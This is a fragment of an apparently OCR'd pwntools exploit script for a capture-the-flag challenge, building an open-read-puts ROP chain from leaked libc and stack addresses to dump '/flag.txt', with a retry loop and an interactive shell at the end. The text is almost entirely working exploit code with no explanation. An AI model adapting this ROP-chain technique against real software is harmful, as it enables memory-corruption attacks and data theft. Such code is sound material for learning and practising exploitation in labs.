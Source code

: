 ```
        pop_rsi = libc_base + 0x00000000000202f8 # pop rsi ; ret
        pop_rdx = libc_base + 0x0000000000001b92 # pop rdx ; ret

        # send orw gadgets 
        payload = flat([pop_rdi, stack_addr + 0x70, pop_rsi, 0, libc_base + libc.sym['open']])
        payload += flat([pop_rdi, 1, pop_rsi, stack_addr - 0x100, pop_rdx, 0x40, libc_base + libc.sym['read']])
        payload += flat([pop_rdi, stack_addr - 0x100, libc_base + libc.sym['puts']])
        payload += "/flag.txt"
        p.sendline(payload)

        break

    except:
        p.close()
        p = process(argv=[_proc])

success("libc_base: " + hex(libc_base))
success("stack_addr: " + hex(stack_addr))
success("PIE_base: " + hex(PIE_base))

p.interactive()
```
